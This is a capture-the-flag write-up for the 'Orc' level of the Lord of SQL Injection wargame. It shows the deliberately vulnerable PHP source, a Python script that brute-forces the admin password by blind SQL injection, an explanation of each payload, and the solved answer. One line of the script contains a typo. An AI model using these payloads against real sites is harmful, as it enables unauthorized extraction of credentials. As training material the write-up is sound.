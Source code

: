 # Lord Of SQL Injection

### Orc

[Orc chall link](https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php)

Source code of this chall:

```php    
    	<?php 
  	  include "./config.php"; 
	  login_chk(); 
	  dbconnect(); 
	  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
	  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
	  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
	  $result = @mysql_fetch_array(mysql_query($query)); 
	  if($result['id']) echo "<h2>Hello admin</h2>"; 
	  $_GET[pw] = addslashes($_GET[pw]); 
	  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
	  $result = @mysql_fetch_array(mysql_query($query)); 
	  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
	  highlight_file(__FILE__); 
	?>	
```

In this chall, your object is to find the password because i already used many command like `' or 1=1 -- ;` and get no response :( . After many times trying, i try Blind SQL Injection and get the thing i want. You will bruteforce to find every character of the password.


I divide this chall into 2 phase:
1. Find the length of the password
2. Find every character of the password

This is my code to solve this problem:
```python
    	import requests
	import string

	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
	my_cookies = {"PHPSESSID":"your PHPSESSID here"}
	passwd = ""
	passwdlen = 0
	for i in range(0,10):
	    print("Checking if the password length is " + str(i))
	    payload = "' or id='admin' and length(pw)=" + str(i) + " -- ;"
	    payload = requests.utils.quote(payload)
	    final_url = url + payload
	    res = requests.get(final_url,cookies=my_cookies)s
	    if "Hello admin" in res.text:
		print("FOUND! Password length is " + str(i))
		print("-------------------------------------------------")
		passwdlen = i
		break
	    else:
		print("FAIL!")
		print("-------------------------------------------------")



	for i in range(1,passwdlen+1):
	    for c in string.digits + string.ascii_lowercase:
		payload = "'or id='admin' and substr(pw,"+str(i)+",1)='" +c+ "' -- ;"
		payload = requests.utils.quote(payload)
		final_url = url + payload
		res = requests.get(final_url,cookies=my_cookies)
		if "Hello admin" in res.text:
		    passwd+=c
		    print(final_url)
		    print("Found a new char of password: " + passwd)
		    break
	print("The password is: " + passwd)
 ```

The two library which i used in this code is requests library and string library. The requests library is used to send data to the server, and the string library to get all the digit and lowercase letter as string for the second loop. Maybe you don't understand why i didn't use the uppercase letter or why the range of the first loop is 0->10, that's a secret :) You will know that secret after you solved this chall :D

In the first for loop, i find the password length. After that, i use the password's length i had found before as an end of range for the second for loop. And also, in this chall you must use you cookies to pass into the header of the request you make. If you don't do that, this code will fall because the server will redirect you to the login page :<

I will explain two payload i used in this chall:

1. The first loop payload

```python
    	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=' or id='admin' and length(pw)=" + str(i) + " -- ;"
```

I find the password by using a single quote to end the query which already open in the query of the program. Then i find the length of the `pw` parameter by loop through a range from 0 to 10. If the length of the `pw` is correct, the line "Hello admin" will appear. You can rely on that line to bruteforce the length of the password. And please remember that after ` --` is a space and a ";" symbol. Because in MySQL, after a comment you must leave a space, but if you leave only the space with no character after that space, the space will be cut off automatically so i choose a ";" symbol, you can choose whatever you want, just make sure the space after the comment exist.

2. The second loop payload

```python
	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=' or id='admin' and substr(pw,"+ str(i) +",1)='" +c+ "' -- ;"
```

In the second loop, i find every character of the password using bruteforce again. The substr() function will extract a substring from a string, in this case is the passwd. You can read about the substr() function on the internet to know more about how it work. 

And after the second loop, you can find the password is 095a9852
